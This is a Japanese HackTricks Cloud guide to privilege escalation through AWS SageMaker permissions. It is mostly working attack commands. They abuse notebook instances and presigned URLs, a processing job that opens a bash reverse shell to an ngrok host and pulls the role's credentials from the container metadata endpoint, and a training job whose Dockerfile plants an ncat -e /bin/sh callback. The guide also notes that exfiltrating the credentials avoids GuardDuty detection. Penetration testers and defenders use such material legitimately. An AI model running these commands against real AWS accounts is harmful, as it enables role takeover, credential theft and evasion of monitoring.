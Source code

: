 # AWS - Sagemaker Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**PEASSファミリー**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

この攻撃プロセスの最初のステップは、**SageMakerが信頼しているロールを特定してそれを引き受ける**ことです（sagemaker.amazonaws.com）。それが完了したら、以下のコマンドを実行して、そのロールが付与された新しいノートブックを作成できます：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
成功すると、AWSからの応答で**新しいノートブックインスタンスのARN**を受け取ります。これが立ち上がるまでに**数分かかります**が、一度完了すると、以下のコマンドを実行して、**ウェブブラウザを通じてノートブックインスタンスにアクセスするためのプリサインされたURL**を取得できます。アクセスを得る他の方法もあるかもしれませんが、これは単一の権限と単一のAPIコールであるため、簡単に思えました。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
このインスタンスが完全に起動していた場合、このAPIコールは**署名付きURLを返します。**これをブラウザで訪れることでインスタンスにアクセスできます。ブラウザでJupyterページにアクセスしたら、右上にある「Open JupyterLab」をクリックします。以下のスクリーンショットで確認できます。

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

次のページでは、「Launcher」タブを下までスクロールします。「Other」セクションの「Terminal」ボタンをクリックします。こちらで見ることができます。

![](<../../../.gitbook/assets/image (27).png>)

ターミナルからはいくつかのオプションがありますが、その中の一つは**AWS CLIを使用する**ことです。もう一つのオプションは、IAMロールの資格情報を直接取得し、それらを**外部に持ち出す**ことです。

「外部に持ち出す」と読んだ時にGuardDutyが頭に浮かぶかもしれませんが、ここではGuardDutyを心配する必要はありません。関連するGuardDutyの検出は[「UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration」](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11)で、EC2インスタンスからロールの資格情報が盗まれ、他の場所で使用された場合にアラートを出します。幸いなことに、このEC2インスタンスは私たちのアカウント内には存在せず、代わりに**AWSが所有するアカウントでホストされている管理されたEC2インスタンス**です。つまり、**これらの資格情報を持ち出しても**、ターゲットのGuardDutyディテクターをトリガーする心配はありません。

**潜在的な影響：** 指定されたsagemakerサービスロールへのPrivesc。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

前の例と同様に、Jupyter **ノートブックが既に実行中**であり、sagemaker:ListNotebookInstancesでリストできる（または他の方法で発見できる）場合、**URLを生成し、アクセスして、前のテクニックで示されたように資格情報を盗む**ことができます。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**潜在的影響：** sagemaker サービスロールへの権限昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

これらの権限を持つ攻撃者は、sagemaker ロールがアタッチされた **sagemaker の processingjob を実行させる** ことができます。攻撃者は、**AWS 管理の ECS アカウントインスタンス**で実行されるコンテナの定義を指定し、アタッチされた **IAM ロールの認証情報を盗む** ことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的な影響：** 指定されたsagemakerサービスロールへのPrivesc。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、トレーニングジョブを作成し、それに**任意のコンテナを実行**し、**ロールをアタッチ**することができます。したがって、攻撃者はそのロールの認証情報を盗むことができます。

{% hint style="warning" %}
このシナリオは、トレーニングジョブの設定で開始コマンドを指定できないため、前述のものよりも悪用が難しいです。攻撃者にrev shellまたはcredsを直接送信するDockerイメージを生成する必要があります。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的な影響：** 指定されたsagemakerサービスロールへのPrivesc。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、**ハイパーパラメータトレーニングジョブ**を作成し、それに**任意のコンテナ**を**ロール付き**で実行する可能性があります。\
_時間がなくて悪用はしていませんが、前の悪用と似ているようです。悪用の詳細をPRで送っていただければ幸いです。_

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>

